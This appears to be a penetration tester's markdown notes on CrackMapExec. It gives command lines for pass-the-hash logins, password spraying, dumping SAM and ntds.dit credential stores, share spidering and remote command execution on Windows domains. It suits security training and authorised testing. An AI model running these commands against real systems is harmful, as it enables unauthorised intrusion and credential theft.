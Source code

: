 ```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```

# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

CME offers a help menu for each protocol (i.e., `crackmapexec winrm -h`). 

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Main flags:

- -u Username `The user whose credentials we will use to authenticate`
- -p Password `User's password`
- Target (IP or FQDN) `Target host to enumerate` (in our case, the Domain Controller)
- --users `Specifies to enumerate Domain Users`
- --groups `Specifies to enumerate domain groups`
- --loggedon-users `Attempts to enumerate what users are logged on to a target, if any`

>If we see `Pwn3d!`, it means that the user is a local administrator on the target computer.

### Access the machine

```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

```

### Basic enumeration

```powershell
# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Obtain the password policy
crackmapexec smb $ip -u <username> -p <password> --pass-pol


# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash

# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Enumerate logged on users in other hosts of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Enumerate users of the domain
sudo crackmapexec smb  $ip -u <username> -p <password> -d <DOMAIN> --users

crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate groups of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --groups

```

### Enumerate shares

```powershell
# See shares
# Local auth
crackmapexec smb $ip --local-auth -u <username> -p <password> --shares
# Doimain
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --shares

# The module spider_plus will dig through each readable share on the host and list all readable files. 
sudo crackmapexec smb  $ip --local-auth -u <username> -p <password> -d <DOMAIN> -M spider_plus --share 'NameOfShare'
# CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>
```

### RCE with crackmapexec

```bash
#  If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.
crackmapexec smb $ip -u Administrator -p '<password>' -x 'whoami' --exec-method smbexec
```

Sometimes we cannot get execution with smbexec method for several reasons. One of them may be  that the `--exec-method smbexec` relies on specific services to be running, such as the Remote Procedure Call (RPC) or Server Message Block (SMB). Try an alternate execution method:

```bash
crackmapexec smb $ip -u Administrator -p '<password>' -x  'whoami' --exec-method wmiexec

crackmapexec smb $ip -u Administrator -p '<password>' -x  'whoami' --exec-method atexec
```

Also, the `smbexec` method requires:
    - A writable `\C$\Windows\Temp` directory.
    - Permissions to copy files to the target machine.
 
If these conditions are not met, execution will fail.


## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.









